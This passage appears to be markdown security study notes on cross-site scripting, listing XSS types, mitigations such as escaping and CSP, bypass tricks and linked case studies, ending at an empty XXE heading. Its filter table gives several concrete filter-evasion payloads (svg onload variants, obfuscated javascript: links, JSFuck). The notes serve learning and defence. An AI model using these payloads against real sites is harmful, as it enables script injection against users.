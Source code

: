 - Type
  - Self-XSS
  - Reflected XSS
  - Stored XSS
- Mitigation
  - Filter
    | Pattern       | Bypass                                     |
    |:--------------|:-------------------------------------------|
    | [SPACE]on...= | <svg`<TAB>`onload=alert(1)>                |
    | [SPACE]on...= | <svg`\n`onload=alert(1)>                   |
    | [SPACE]on...= | <svg/ onload=alert(1)>                     |
    | javascript:   | `<a href="\x01javascript:alert(1)">X</a>`  |
    | javascript:   | `<a href="java\tscript:alert(1)">X</a>`    |
    | javascript:   | `<a href="java&Tab;script:alert(1)">X</a>` |
    | <script       | JSFuck                                     |
  - Escape (HTML Entity)
    | Symbol | Alternative |
    |:-------|:------------|
    | `<`    | `&lt;`      |
    | `>`    | `&gt;`      |
    | `"`    | `&quot;`    |
  - Content Security Policy (CSP)
    > [CSP Evaluator](https://csp-evaluator.withgoogle.com/)
    - script-src
    - Nonce
  - trusted-types (Chrome)
  - HTTP response header
  - Define trusted resources
  - HttpOnly
- Bypass
  - `<base>`
    - Change base URL of all relative URL
  - Relative Path Overwrite (RPO)
- Case Study
  - [XS-Search abusing the Chrome XSS Auditor](https://www.youtube.com/watch?v=HcrQy0C-hEA)
  - [Mutation XSS in Google Search](https://www.acunetix.com/blog/web-security-zone/mutation-xss-in-google-search/)
  - [Breaking XSS mitigations via Script Gadgets](https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf)

#### XXE (XML External Entity Injection)


## Programming & Framework
